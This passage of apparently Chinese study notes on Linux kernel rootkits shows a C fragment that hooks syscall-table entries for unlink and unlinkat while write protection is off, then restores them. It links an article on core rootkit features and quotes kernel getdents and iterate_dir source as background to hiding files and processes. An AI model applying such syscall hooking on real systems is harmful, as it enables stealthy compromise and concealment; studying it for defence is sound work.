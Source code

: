 ```c
sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
enable_write_protection();

disable_write_protection();
sys_call_table[__NR_open] = (unsigned long*)real_open;
sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
enable_write_protection();
```

#### [Linux Rootkit 系列三：实例讲解 Rootkit 必备的基本功能](https://www.freebuf.com/articles/system/107829.html)

**隐藏文件/进程**

`ls` 通过系统调用 `getdents` 实现文件遍历：

```c
SYSCALL_DEFINE3(getdents, unsigned int, fd,
		struct linux_dirent __user *, dirent, unsigned int, count)
{
	struct fd f;
	struct linux_dirent __user * lastdirent;
	struct getdents_callback buf = {
		.ctx.actor = filldir,
		.count = count,
		.current_dir = dirent
	};
	...
	error = iterate_dir(f.file, &buf.ctx);
    ...
}
```

`filldir` 作为回调函数，后面调用了 `iterate_dir`：

```c
int iterate_dir(struct file *file, struct dir_context *ctx)
{
	...
	if (!IS_DEADDIR(inode)) {
		ctx->pos = file->f_pos;
		if (shared)
			res = file->f_op->iterate_shared(file, ctx);
		else
			res = file->f_op->iterate(file, ctx);
		file->f_pos = ctx->pos;
		fsnotify_access(file);
		file_accessed(file);
	}
    ...
}
```
